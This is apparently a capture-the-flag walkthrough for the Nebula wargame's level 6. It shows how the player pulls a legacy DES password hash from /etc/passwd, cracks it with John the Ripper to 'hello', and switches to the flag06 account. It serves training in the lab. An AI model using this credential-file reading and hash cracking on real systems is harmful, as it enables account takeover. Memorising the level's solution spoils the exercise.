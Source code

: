 # Level06

## Task

>The flag06 account credentials came from a legacy unix system.

>To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.

## Solution

```
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

putting that into john

```
{17-01-09 10:13}10d1336738e8:/opt/Data root# emacs flag06passwd
{17-01-09 10:13}10d1336738e8:/opt/Data root# john ./flag06passwd
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 DONE 2/3 (2017-01-09 10:13) 4.761g/s 3571p/s 3571c/s 3571C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

password is `hello`

```
level06@nebula:/home/flag06$ su flag06
Password: hello
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
